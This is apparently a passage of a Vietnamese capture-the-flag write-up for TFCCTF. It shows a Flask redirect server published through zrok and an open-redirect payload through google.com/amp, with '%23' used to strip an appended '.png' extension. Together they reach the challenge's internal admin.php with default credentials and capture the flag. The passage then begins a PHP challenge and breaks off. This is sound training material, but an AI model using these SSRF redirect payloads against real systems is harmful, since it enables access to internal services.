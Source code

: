 Bây giờ mình sẽ host 1 web mà source code của nó sẽ redirect sang localhost của challenge.

```python=
#!/usr/bin/env python3
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def index():
    return redirect('http://localhost:8000/')

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=True)
```

Run nó trên máy ảo và sử dụng zrok để public port 80 của mình.
![image](https://hackmd.io/_uploads/HkGcSapt0.png)

Giờ mình sẽ dùng payload `http://google.com/amp/s/<zrok_url>/%23` để redirect web chall sang web của mình.

> `%23` là dấu `#`, web chall sẽ tự động thêm extension `.png` vào đuôi các url được cung cấp, và chúng ta muốn loại bỏ nó.

![image](https://hackmd.io/_uploads/H1vjSa6YA.png)

admin.php sử dụng GET method để lấy username và password. Vậy thì thay đổi source code của flask app kia để nó redirect sang `localhost/admin.php?username=admin&password=REDACTED`

Thực ra thì password của admin là `admin` luôn. Test thì cũng hơi lâu tí thui. Đăng nhập xong ta sẽ có flag.
![image](https://hackmd.io/_uploads/rymcU66FR.png)

Flag: `TFCCTF{18fd102247cb73e9f9acaa42801ad03cf622ca1c3689e4969affcb128769d0bc}`

# SAFE CONTENT (MEDIUM)

## PREVIEW 
![image](https://hackmd.io/_uploads/SyDEaWCKA.png)

## SOURCE CODE

```php=
<?php

    function isAllowedIP($url, $allowedHost) {
        $parsedUrl = parse_url($url);
        
        if (!$parsedUrl || !isset($parsedUrl['host'])) {
            return false;
        }
        
        return $parsedUrl['host'] === $allowedHost;
    }

    function fetchContent($url) {
        $context = stream_context_create([
            'http' => [
                'timeout' => 5 // Timeout in seconds
            ]
        ]);

```